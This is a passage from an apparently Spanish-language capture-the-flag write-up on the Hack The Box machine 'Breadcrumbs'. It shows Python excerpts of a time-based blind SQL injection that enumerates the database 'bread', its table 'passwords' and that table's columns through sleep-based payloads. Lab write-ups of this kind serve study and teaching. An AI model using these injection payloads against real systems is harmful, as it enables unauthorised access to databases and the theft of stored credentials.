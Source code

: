 > [extract_db_name.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/breadcrumbs/process_SQLi/extract_db_name.py)

![316bash_scriptSQLi_dbname](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316bash_scriptSQLi_dbname.png)

*No sé por qué toma los `+` como caracteres válidos, pero bueno, obtenemos el nombre de la base de datos: `bread`*.

...

##### Obtenemos tablas de la base de datos <ins>bread</ins>.

👀

```py
...
# Para ir iterando entre las tablas, en este caso iterar en 5 tablas (asi evitamos errores)
for table_num in range(0, 5):
    p4 = log.progress("Table name")
    for position in range(1, 16):
        for letter in dic_letters:
            time_now = time.time()

            payload = "?method=select&"
            payload += "username=administrator' and if(substr((SELECT table_name FROM information_schema.tables WHERE table_schema='bread' LIMIT %d,1),%d,1)='%s',sleep(3),1) and '1'='1&" % (table_num, position, letter)
            payload += "table=passwords"
...
```

> [extract_tables.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/breadcrumbs/process_SQLi/extract_table_names.py)

![316bash_scriptSQLi_tables](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316bash_scriptSQLi_tables.png)

Interesante, solo hay una tabla llamada `passwords`, extraigamos sus columnas...

...

##### Obtenemos columnas de la tabla <u>passwords</u>.

👀

```py
...
# Iteramos entre las columnas
for column_num in range(0, 5):
    p4 = log.progress("Column name")
    for position in range(1, 16):
        for letter in dic_letters:
            time_now = time.time()

            payload = "?method=select&"
            payload += "username=administrator' and if(substr((SELECT column_name FROM information_schema.columns WHERE table_schema='bread' and table_name='passwords' LIMIT %d,1),%d,1)='%s',sleep(3),1) and '1'='1&" % (column_num, position, letter)
            payload += "table=passwords"
...
```
